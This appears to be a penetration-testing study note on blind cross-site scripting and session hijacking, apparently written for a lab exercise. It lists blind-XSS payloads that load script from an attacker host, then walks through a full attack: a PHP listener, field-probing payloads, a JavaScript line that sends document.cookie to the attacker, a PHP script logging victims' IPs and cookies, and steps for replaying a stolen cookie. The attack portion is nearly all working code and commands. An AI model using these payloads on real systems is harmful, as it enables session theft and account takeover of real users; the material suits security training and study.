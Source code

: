 # Payloads
#### https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
# Overview

Modern web apps store **session IDs in cookies**. If an attacker steals these, they can **impersonate the victim**.  
In **Blind XSS**, payload execution happens in a **privileged context (e.g., Admin panel)** where the attacker has **no direct access**, but still wants to capture data like cookies.
### Setup: Start Listener on Attacker Server

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```
### Phase 1: Discovering Vulnerable Field (Blind XSS)

Use the payloads below **in different fields**, and identify which one triggers an HTTP request to attacker:

```html
<script src="http://YOUR_IP/fullname"></script>
<script src="http://YOUR_IP/username"></script>
```

If a field is vulnerable, you’ll see a request on your listener like:

```
[200] /username
```

> `email` can be skipped (validated), and `password` too (usually hashed).
### Phase 2: Stealing Session Cookie

1. Create `script.js` on attacker VM with:

```javascript
new Image().src='http://YOUR_IP/index.php?c='+document.cookie;
```

2. XSS payload becomes:   

```html
<script src="http://YOUR_IP/script.js"></script>
```
### Phase 3: Logging Cookies

**index.php** on attacker server:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Start PHP server again:

```bash
sudo php -S 0.0.0.0:80
```
### Phase 4: Using the Cookie

1. Open victim site (e.g., `/hijacking/login.php`)    
2. Press `Shift + F9` → Open **Storage** tab → Click `+`
3. Add:
    - **Name** = `cookie`
    - **Value** = `value_stolen_from_log`
4. Refresh page → Victim session hijacked.
# Tags
> #Exploitation #Web-Exploitation #XSS #Cookies #Session-Hijacking